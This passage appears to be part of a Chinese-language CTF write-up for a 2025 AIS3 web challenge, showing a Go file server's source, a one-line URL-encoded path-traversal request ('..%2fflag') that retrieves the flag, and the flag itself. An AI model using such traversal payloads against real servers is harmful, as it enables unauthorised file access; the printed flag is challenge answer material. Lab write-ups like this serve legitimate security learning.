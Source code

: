 打開題目原始碼看 `main.go`，發現若像 /flag 請求，會被導向到 YouTube 影片連結。

```go=
package main

import "net/http"

func main() {
	http.Handle("/", http.FileServer(http.Dir("/app/Tomorin")))
	http.HandleFunc("/flag", func(w http.ResponseWriter, r *http.Request) {
		http.Redirect(w, r, "https://youtu.be/lQuWN0biOBU?si=SijTXQCn9V3j4Rl6", http.StatusFound)
  	})
  	http.ListenAndServe(":30000", nil)
}
```

嘗試路徑遍歷，就拿到 Flag 了。

```
http://chals1.ais3.org:30000/..%2fflag
```

![Screenshot 2025-06-03 at 18.30.13](/posts/2025-AIS3-PreExam-MyFirstCTF-Writeup/image6.webp)


Flag：`AIS3{G01ang_H2v3_a_c0O1_way!!!_Us3ing_C0NN3ct_M3Th07_L0l@T0m0r1n_1s_cute_D0_yo7_L0ve_t0MoRIN?}`
